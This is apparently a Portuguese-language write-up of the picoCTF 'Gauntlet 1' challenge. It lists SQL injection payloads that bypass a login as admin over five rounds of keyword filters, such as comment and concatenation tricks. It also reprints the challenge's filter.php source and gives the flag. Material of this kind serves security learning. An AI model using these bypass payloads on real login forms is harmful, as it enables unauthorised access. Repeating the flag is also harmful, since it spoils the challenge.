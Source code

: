 # Gauntlet 1 
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [SQL Injection]  

## Sobre o Desafio  
Can you beat the filters? 

**Objetivo:** Log in as admin.  

## 🔗 Links do Desafio
- [Gauntlet_1](https://play.picoctf.org/practice/challenge/88)
- [Acesse o desafio](http://jupiter.challenges.picoctf.org:19593/)  
- [Página de filtragem](http://jupiter.challenges.picoctf.org:19593/filter.php)  

Boa sorte! 🔥  


## Solução  

```
Ao acessar o site solicitado, chegando em uma janela de login e senha, com as seguintes solicitações:
```
![image](https://github.com/user-attachments/assets/bbfac422-eb64-4cb1-8829-41d31270dd6b)
```
Como não foi passado nenhuma credencial e a ideia é evoluir os rounds até o 5, precisamos tentar entrar de alguma forma, quando tentado um login e senha generico, ele demostra no topo da página a solicitação ao banco de dados, que acontece em SQL.
```
![image](https://github.com/user-attachments/assets/75983be8-7be6-46fd-a23d-bb24e4897f6c)
```
round 1 - 
username:
admin' --           ( -- comenta todo resto )
password:
qualquercoisa

SELECT * FROM users WHERE username = 'admin' --' AND password = 'qualquercoisa'


round 2 -
username:
admin' /*          ( # e /* são outras formas de comentar)
password:
qualquercoisa

SELECT * FROM users WHERE username='admin' /*' AND password='1'


round 3 -
username:
admin';              (o ; indica o final de uma execução e começo da outra)
password:
qualquercoisa

SELECT * FROM users WHERE username='admin';' AND password='123'

round 4 -
username:
ad'||'min';          ()
password:
qualquercoisa

SELECT * FROM users WHERE username='ad'||'min';' AND password='123'

round 5 -
username:
ad'||'min';          ()
password:
qualquercoisa

SELECT * FROM users WHERE username='ad'||'min';' AND password='123'

filter.php

icoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}




<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?>



```

> Assim, obtemos a flag `picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}`  
